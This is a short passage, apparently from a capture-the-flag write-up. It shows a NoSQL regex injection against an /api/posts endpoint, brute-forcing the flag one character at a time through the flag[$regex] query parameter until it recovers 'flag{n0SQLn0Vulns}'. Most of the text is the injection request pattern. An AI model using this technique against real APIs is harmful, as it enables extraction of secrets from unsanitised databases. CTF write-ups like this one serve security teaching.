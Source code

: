 <img src="images/intruder.png" width="50%">

i.e. (`§§` is substituted with every character in `[a-zA-Z0-9]`):

```GET /api/posts?flag[$regex]=flag{§§.*}```
- Returns the redacted flag response for only character 'n'

```GET /api/posts?flag[$regex]=flag{n§§.*}```
- Returns the redacted flag response for only character '0'

```GET /api/posts?flag[$regex]=flag{n0§§.*}```

...

```GET /api/posts?flag[$regex]=flag{n0SQLn0Vulns§§.*}```

And we have captured the flag! `flag{n0SQLn0Vulns}`
